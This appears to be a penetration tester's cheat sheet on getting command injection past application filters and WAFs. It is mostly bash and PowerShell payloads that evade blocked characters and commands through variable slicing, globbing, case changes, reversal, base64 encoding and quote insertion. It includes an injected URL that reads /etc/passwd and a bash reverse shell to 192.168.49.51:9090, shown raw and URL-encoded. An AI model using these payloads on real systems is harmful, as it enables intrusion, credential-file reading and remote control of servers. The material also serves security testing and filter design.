


# Filters

## Front-End Validation

If the restrictions are only applied on the client-side (Figure 1.1), we can bypassed them by using a proxy and modifying the request before it reaches the server (Figure 1.2).

<figure><figcaption><p>Figure 1: Bypassing frontend validation.</p></figcaption></figure>

## Application Filters/WAFs

If an error message is displayed where the output should be (Figure 2), then the filter exists in the application itself, whereas if it is displayed on another page, it indicates the presence of a WAF.

<figure><figcaption><p>Figure 2: An application filter blocking our command injection attempt.</p></figcaption></figure>

We should first try to identify what is blocked. It could be a character (`;`), command (`id`), or both (`;id`). We can find out with some trial and error:

1. `127.0.0.1;` -> :x: (`;` is blocked)
2. Replacing `;` with `&` -> Works ✅&#x20;
3. `127.0.0.1&id` -> :x: (`id` is blocked)
4. Try the methods below!

## Blacklisted Characters

### Environment Variables



```bash
# list all environment variables
env
```



```powershell
# list all environment variables
set # cmd
Get-ChildItem Env: # powershell

# if `\` is block
%HOMEPATH:~6,-4% # cmd
$env:HOMEPATH[0] # powershell
```



Below there are some common blacklisted characters in Linux and their potential alternatives.

<table><thead><tr><th width="350">Blocked</th><th>Alternative(s)</th></tr></thead><tbody><tr><td><code>+</code></td><td><p><code>%09</code> (tab)</p><p><code>${IFS}</code></p><p><code>{cmd,flag}</code> (brace expansion)</p></td></tr><tr><td><code>/</code></td><td><code>${PATH:0:1}</code></td></tr><tr><td><code>;</code></td><td><code>${LS_COLORS:10:1}</code></td></tr><tr><td><code>:</code></td><td><code>${LS_COLORS:4:1}</code></td></tr></tbody></table>

### Character Shifting

We can shift the character by 1, so when we can pass the ASCII character before the one we need. We can get the ASCII table using `man ascii`. For instance if we need to use the `+` symbol, we would use the `*` that comes after it.

```bash
echo $(tr '!-}' '"-~'<<<*)
+
```

### Globbing

Using wildcards (`?`, `*`, `[`, `]`, `!`) to partially or fully match file names or other file content. Globbing can be hepful in the case where applications/WAFs restrict the use of certain characters.

```bash
$ ls -l /etc/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /???/passwd
-rwsr-xr-x 1 root root 72344 Feb  4 20:28 /bin/passwd
-rw-r--r-- 1 root root  2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/????wd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/{p????d,g???p}
-rw-r--r-- 1 root root  955 Apr  5 15:35 /etc/group
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd
```

## Blacklisted Commands

### Casing



```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
x7331
# if spaces are blocked
$({tr,"[A-Z]","[a-z]"}<<<"WhOaMi")
x7331
```



```powershell
$ whOAMi
x7331
```



### Reversing



```bash
echo 'whoami' | rev
imaohw
$(rev<<<'imaohw')
x7331
# in one line
$(rev<<<$(echo${IFS}'whoami'|rev))
x7331
```



```powershell
# reverse command
$ "whoami"[-1..-20] -join ''
imaohw
# execute command
$ iex "$('imaohw'[-1..-20] -join '')"
x7331
```



### Encoding

Encoding the payload can be useful for simple pattern-matching evasion. For instance, regex patterns will have a hard time identifying bash commands in the encoded string. This is also useful if the server URL-encodes certain characters.



```bash
# encode the payload
$ echo "whoami" | base64
d2hvYW1pCg==
# inject the encoded payload using command substitution
$(echo d2hvYW1pCg== | base64 -d)
x7331
```




```powershell
# encode the command
$ [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA
# execute the command
$ iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
x7331
```




We can also combine Base64-encoding with command substitution (` `` `).

```bash
$ echo "cat /etc/passwd" |base64
Y2F0IC9ldGMvcGFzc3dkCg==
```


```bash
# injected payload
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`
```


## Input Sanitization

* Single or double quotes can be used to obfuscate a command as they are ignored by both Bash and PowerShell. CMD only ignores double quotes. **The quote type cannot be mixed and must always be an even number**.
* In Linux we can use command substitution (`$()` or ` `` `) to inject **empty output** between characters, thereby modifying strings without altering the functional behavior of the payload.



```bash
# original command
$ whoami
x7331
# using single quotes
$ who'a'mi
x7331
# using double quotes
$ wh"oa"mi
x7331
```



```bash
$ wh$@oami
x7331
$ wh\oami
x7331
$ who$()ami
x7331
$ who``ami
x7331
```



```
$ wh^oami
x7331
```



## Input Normalization

We must make sure to handle "bad" characters that might alter a payload’s behavior. We should **enclose such characters in single quotes** to make the target server interpret them as valid data instead of new parameters.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
```

We also need to **URL-encode** these characters. For instance, the `&` character is used as a delimiter by the backend, and if not URL-encoded, the web server will process everything after it as a parameter-value pair.


```bash
$ hURL -U "bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.51%2F9090%200%3E%261%27
```

